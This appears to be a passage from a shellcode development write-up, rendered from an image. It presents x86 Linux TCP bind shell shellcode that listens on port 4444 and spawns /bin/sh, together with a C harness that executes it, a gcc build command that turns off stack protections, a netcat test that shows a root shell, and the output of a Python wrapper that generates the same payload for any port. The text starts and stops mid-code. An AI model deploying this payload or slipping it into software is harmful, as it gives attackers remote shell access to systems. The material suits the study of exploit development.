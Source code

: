 ```c
"\xdb\xb3\x02\x31\xd2\x52\x66\x68\x11\x5c\x66\x53"
"\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80"
"\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05"
"\x31\xc9\x51\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0"
"\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52"
"\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
"\x89\xd1\xb0\x0b\xcd\x80";
main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```
#### Compile Host C Program
```console
root# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```

#### Test the shellcode - Port 4444
```console
# WINDOW 1
root# ./shellcode
Shellcode Length:  114

# WINDOW 2
root# netstat -tnalp | grep shellcode
tcp  0.0.0.0:4444   0.0.0.0:*  LISTEN  8004/shellcode
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```

### Testing Wrapper with Port 13337
```console
root# python tcpbindwrapper.py
Enter TCP Port Number: 13337
Your TCP Port in Hex is: \x34\x19
Choose your shellcode export format.
[1] = C Format
[2] = Python Format
[1]: 1
[----------------Your-Shellcode------------------]
shellcode = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53"
"\x6a\x02\x89\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31"
"\xdb\xb3\x02\x31\xd2\x52\x66\x68\x34\x19\x66\x53"
"\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80"
"\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05"
"\x31\xc9\x51\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0"
"\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52"
"\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
"\x89\xd1\xb0\x0b\xcd\x80";
```
#### Add Shellcode to C Program
```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53"
"\x6a\x02\x89\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31"
```